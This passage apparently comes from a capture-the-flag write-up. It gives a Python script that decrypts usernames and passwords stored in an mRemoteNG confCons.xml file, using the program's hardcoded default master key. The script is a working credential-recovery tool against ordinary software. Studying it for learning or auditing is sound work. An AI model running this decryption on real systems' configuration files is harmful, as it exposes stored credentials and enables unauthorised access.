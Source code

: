 
I see now that there is a python script as well, though I haven’t played with
it.

#### Method 3: Script It

At the time I was solving, there was only a java version on that GitHub, and I
wanted a `python` version. So I wrote a quick script:

    
    
      1 #!/usr/bin/env python3
      2 
      3 import base64
      4 import hashlib
      5 import re
      6 import sys
      7 from Cryptodome.Cipher import AES
      8 
      9 if len(sys.argv) != 2:
     10     print(f"[-] Usage: {sys.argv[0]} [confCons.xml]")
     11     sys.exit()
     12 
     13 try:
     14     with open(sys.argv[1], 'r') as f:
     15         conf = f.read()
     16 except FileNotFoundError:
     17     print(f"[-] Unable to open {sys.argv[1]}")
     18     sys.exit()
     19 
     20 mode = re.findall('BlockCipherMode="(\w+)"', conf)
     21 if len(mode) !=1:
     22     print("[-] Warning - No BlockCipherMode detected")
     23 elif mode[0] != 'GCM':
     24     print(f"[-] Warning - This script is for AES GCM Mode. {mode} detected")
     25 
     26 nodes = re.findall('<Node .+/>', conf)
     27 if len(nodes) > 0:
     28     print(f"[+] Found nodes: {len(nodes)}\n")
     29 else:
     30     print("[-] Found no nodes")
     31 
     32 for node in nodes:
     33     user = re.findall(' Username="(\w*)"', node)[0]
     34     enc = base64.b64decode(re.findall(' Password="([^ ]+)"', node)[0])
     35     salt = enc[:16]
     36     nonce = enc[16:32]
     37     cipher = enc[32:-16]
     38     tag = enc[-16:]
     39     key = hashlib.pbkdf2_hmac("sha1", b"mR3m", salt, 1000, dklen=32)
     40     aes = AES.new(key, AES.MODE_GCM, nonce=nonce)
     41     aes.update(salt)
     42     password = aes.decrypt_and_verify(cipher, tag).decode()
     43     print(f"Username: {user}\nPassword: {password}\n")
    